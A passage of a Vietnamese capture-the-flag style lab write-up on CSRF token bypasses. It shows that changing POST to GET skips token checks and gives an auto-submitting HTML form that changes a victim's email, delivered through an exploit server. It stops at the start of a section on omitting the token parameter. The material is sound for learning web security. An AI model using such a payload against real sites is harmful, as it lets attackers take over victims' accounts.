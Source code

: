 Thử thay đổi POST method thành GET method: 

![img](https://imgur.com/kxIef12.png)

Respone nhận được: 

![img](https://imgur.com/8rzu7QH.png)

Có vẻ CSRF token đã không còn được xác minh. 

Sử dụng HTML payload sau: 

    <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
    </body>
    </html>

(Cần thay đổi địa chỉ URL)

Go to Exploit Server: 

![img](https://imgur.com/gHhsE7s.png)

Thêm HTML payload này vào phần body:

![img](https://imgur.com/GuyWOQK.png)

Click Store và view exploit để xác nhận:

(Có thể chỉnh sửa payload để tự động cập nhật email hoặc click nút submit 1 cách thủ công)

![img](https://imgur.com/cYF1MBs.png)

![img](https://imgur.com/D3Wmepf.png)

Xác nhận đã thay đổi email, click Deliver exploit to victim.

Solved the lab!

![img](https://imgur.com/lv0149u.png)

# Validation of CSRF token depends on token being present

Một số ứng dụng xác nhận chính xác token khi nó xuất hiện nhưng bỏ qua việc xác thực nếu token bị bỏ qua.

Trong tình huống này, kẻ tấn công có thể xóa toàn bộ param chứa token (không chỉ giá trị của nó) để bypass xác thực và thực hiện một cuộc tấn công CSRF:
